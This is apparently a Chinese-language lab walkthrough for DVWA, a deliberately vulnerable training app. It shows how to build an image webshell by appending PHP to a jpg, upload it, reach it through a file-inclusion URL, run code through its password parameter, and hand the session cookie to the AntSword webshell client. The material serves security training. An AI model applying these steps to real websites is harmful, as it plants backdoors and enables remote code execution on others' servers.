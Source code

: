合并生成新文件

```
G:\>copy xuegod.jpg/b + webshell.php/a hello.jpg
```

> 此时生成的 hello.jpg 含有 webshell.php 的代码

在 ` File Upload` 上传图片马

```
../../hackable/uploads/hello.jpg
```

进入 `File Inclusion` ，拼接 url

```
http://192.168.1.76/DVWA/vulnerabilities/fi/?page=file:///var/www/html/DVWA/hackable/uploads/hello.jpg
```

```
http://centos7-6.local/dvwa/vulnerabilities/upload/?page=file:///var/www/html/dvwa/hackable/uploads/201457119579.jpg
```

```
http://centos7-6.local/dvwa/vulnerabilities/upload/?page=file:///var/www/html/dvwa/hackable/uploads/201457119579.jpg
```

```
../../hackable/uploads/201457119579.jpg
```

> 使用 file 协议和绝对路径

利用密码执行代码

```
xuegod=phpinfo();
```

> 会在代码插入的地方显示反馈

**在蚁剑中执行 payload 需要加入 Cookie 请求头**

在目标页面获取 Cookie

```
>document.cookie
'PHPSESSID=mm8prcunm801p1hb0bqjv7ig47; security=high'
```

将 Cookie 写入蚁剑请求信息即可

![将 Cookie 写入蚁剑请求信息](./../../../image/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/%E5%B0%86%20Cookie%20%E5%86%99%E5%85%A5%E8%9A%81%E5%89%91%E8%AF%B7%E6%B1%82%E4%BF%A1%E6%81%AF.png)

>要去掉单引号
